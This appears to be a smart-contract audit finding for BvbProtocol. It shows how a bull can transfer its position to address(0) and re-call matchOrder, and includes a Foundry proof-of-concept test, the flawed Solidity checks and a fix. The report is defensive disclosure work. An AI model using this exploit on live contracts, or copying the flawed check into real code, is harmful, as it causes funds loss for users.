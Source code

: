 dipp

medium

# Can call ```matchOrder``` repeatedly for the same order if attacker is bull

## Summary

A user can call ```matchOrder``` multiple times for the same order by transferring position to 0 address if the user is the order's bull since the bull must be address(0) for ```checkIsValidOrder``` to be passed.

## Vulnerability Detail

The ```transferPosition``` function allows a user to transfer their position to address(0). In the ```matchOrder``` function, the ```checkIsValidOrder``` function is called and checks if the bull of an order is address(0) to determine if the order has been matched. Transferring the position to address(0) allows the order's previous bull to call ```matchOrder``` again for the same order.

The test code below matches an order where the maker of the order is the bull. The bull then transfers their position to address(0) and calls ```matchOrder``` on the same order, setting itself as bull and bear.

Test code added to ```MatchOrder.t.sol```:
```solidity
    function testCallMatchOrderAgain() public {
        BvbProtocol.Order memory order = defaultOrder();

        bytes32 orderHash = bvb.hashOrder(order);
        bytes memory signature = signOrder(bullPrivateKey, order);
        bvb.matchOrder(order, signature);

        assertEq(bvb.bulls(uint(orderHash)), bull, "Bvb correctly saved the bull");
        assertEq(bvb.bears(uint(orderHash)), address(this), "Bvb correctly saved the bear");

        vm.startPrank(bull);
        bvb.transferPosition(orderHash, true, address(0));
        bvb.matchOrder(order, signature);
        vm.stopPrank();

        assertEq(bvb.bulls(uint(orderHash)), bull, "Bvb correctly saved the bull");
        assertEq(bvb.bears(uint(orderHash)), bull, "The bear position now belongs to the bull");

    }
```

## Impact

If the bull of the order is the maker then this vulnerability could be used to replace the order's bear, resulting in a loss of funds for the bear. If the bull is not the maker, calling the ```matchOrder``` function again would force the maker to pay for the order again. The bull would also pay again when calling ```matchOrder```.

## Code Snippet

[BvbProtocol.sol:transferPosition#L521-L538](https://github.com/sherlock-audit/2022-11-bullvbear/blob/main/bvb-protocol/src/BvbProtocol.sol#L521-L538):
```solidity
    function transferPosition(bytes32 orderHash, bool isBull, address recipient) public {
        // ContractId
        uint contractId = uint(orderHash);

        if (isBull) {
            // Check that the msg.sender is the Bull
            require(msg.sender == bulls[contractId], "SENDER_NOT_BULL");

            bulls[contractId] = recipient;
        } else {
            // Check that the msg.sender is the Bear
            require(msg.sender == bears[contractId], "SENDER_NOT_BEAR");

            bears[contractId] = recipient;
        }

        emit TransferedPosition(orderHash, isBull, recipient);
    }
```

[BvbProtocol.sol:checkIsValidOrder#L734-L761](https://github.com/sherlock-audit/2022-11-bullvbear/blob/main/bvb-protocol/src/BvbProtocol.sol#L734-L761):
```solidity
    function checkIsValidOrder(Order calldata order, bytes32 orderHash, bytes calldata signature) public view {
        // Check that the signature is valid
        require(isValidSignature(order.maker, orderHash, signature), "INVALID_SIGNATURE");

        // Check that this order is still valid
        require(order.validity > block.timestamp, "EXPIRED_VALIDITY_TIME");

        // Check that this order was not canceled
        require(!canceledOrders[orderHash], "ORDER_CANCELED");

        // Check that the nonce is valid
        require(order.nonce >= minimumValidNonce[order.maker], "INVALID_NONCE");
        
        // Check that this contract will expire in the future
        require(order.expiry > order.validity, "INVALID_EXPIRY_TIME");

        // Check that fees match
        require(order.fee >= fee, "INVALID_FEE");

        // Check that this is an approved ERC20 token
        require(allowedAsset[order.asset], "INVALID_ASSET");

        // Check that this if an approved ERC721 collection
        require(allowedCollection[order.collection], "INVALID_COLLECTION");

        // Check that there is no bull set for this order -> not matched
        require(bulls[uint(orderHash)] == address(0), "ORDER_ALREADY_MATCHED");
    }
```

## Tool used

Manual Review

## Recommendation

When checking if the order is matched in ```checkIsValidOrder```, make sure both bull and bear == address(0).